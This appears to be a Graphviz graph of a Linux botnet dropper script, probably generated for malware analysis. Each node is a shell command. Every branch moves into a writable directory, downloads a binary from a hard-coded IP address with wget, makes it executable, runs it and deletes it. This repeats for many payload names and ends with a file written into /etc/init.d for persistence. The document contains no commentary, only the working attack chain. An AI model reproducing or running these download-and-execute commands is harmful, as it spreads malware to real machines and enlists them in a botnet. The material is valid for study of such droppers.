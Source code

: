digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://194.67.209.171/lungka "];
10 -> 12 [label=";,"];
12 [label="chmod +x lungka "];
12 -> 14 [label=";,"];
14 [label="./lungka "];
14 -> 16 [label=";,"];
16 [label="rm -rf lungka "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://194.67.209.171/mango "];
28 -> 30 [label=";,"];
30 [label="chmod +x mango "];
30 -> 32 [label=";,"];
32 [label="./mango "];
32 -> 34 [label=";,"];
34 [label="rm -rf mango "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://194.67.209.171/openggl "];
46 -> 48 [label=";,"];
48 [label="chmod +x openggl "];
48 -> 50 [label=";,"];
50 [label="./openggl "];
50 -> 52 [label=";,"];
52 [label="rm -rf openggl "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://194.67.209.171/vast "];
64 -> 66 [label=";,"];
66 [label="chmod +x vast "];
66 -> 68 [label=";,"];
68 [label="./vast "];
68 -> 70 [label=";,"];
70 [label="rm -rf vast "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://194.67.209.171/greyps "];
82 -> 84 [label=";,"];
84 [label="chmod +x greyps "];
84 -> 86 [label=";,"];
86 [label="./greyps "];
86 -> 88 [label=";,"];
88 [label="rm -rf greyps "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://194.67.209.171/kuhamo "];
100 -> 102 [label=";,"];
102 [label="chmod +x kuhamo "];
102 -> 104 [label=";,"];
104 [label="./kuhamo "];
104 -> 106 [label=";,"];
106 [label="rm -rf kuhamo "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://194.67.209.171/marcos "];
118 -> 120 [label=";,"];
120 [label="chmod +x marcos "];
120 -> 122 [label=";,"];
122 [label="./marcos "];
122 -> 124 [label=";,"];
124 [label="rm -rf marcos "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://194.67.209.171/chiko "];
136 -> 138 [label=";,"];
138 [label="chmod +x chiko "];
138 -> 140 [label=";,"];
140 [label="./chiko "];
140 -> 142 [label=";,"];
142 [label="rm -rf chiko "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://194.67.209.171/pchiko "];
154 -> 156 [label=";,"];
156 [label="chmod +x pchiko "];
156 -> 158 [label=";,"];
158 [label="./pchiko "];
158 -> 160 [label=";,"];
160 [label="rm -rf pchiko "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://194.67.209.171/co "];
172 -> 174 [label=";,"];
174 [label="chmod +x co "];
174 -> 176 [label=";,"];
176 [label="./co "];
176 -> 178 [label=";,"];
178 [label="rm -rf co "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://194.67.209.171/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://194.67.209.171/facebook2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x facebook2 "];
210 -> 212 [label=";,"];
212 [label="./facebook2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf facebook2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://194.67.209.171/netdeld "];
226 -> 228 [label=";,"];
228 [label="chmod +x netdeld "];
228 -> 230 [label=";,"];
230 [label="./netdeld "];
230 -> 232 [label=";,"];
232 [label="rm -rf netdeld "];
232 -> 234 [label=";,"];
234 [label="cd /etc/init.d "];
234 -> 234
236 [label="wget http://194.67.209.171/hatak "];
236 -> 238 [label=";,"];
238 [label="chmod 0777 hatak "];
238 -> 240 [label=";,"];
240 [label="./hatak "];
240 -> 241 [label=";,"];
}
